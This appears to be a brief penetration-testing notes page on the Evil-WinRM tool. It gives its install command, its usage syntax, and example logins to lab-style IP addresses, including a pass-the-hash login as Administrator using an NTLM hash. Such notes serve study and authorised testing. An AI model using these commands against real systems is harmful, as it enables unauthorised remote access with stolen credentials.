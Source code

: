 # Evil-WinRM

* Tool used for \[\[WinRM Attacks|WinRM]]

### Installing Evil-WinRM

```shell-session
sudo gem install evil-winrm
```

### Evil-WinRM Usage

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

### Pass-the-Hash

**Pass-the-Hash with Evil-WinRM Example**

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
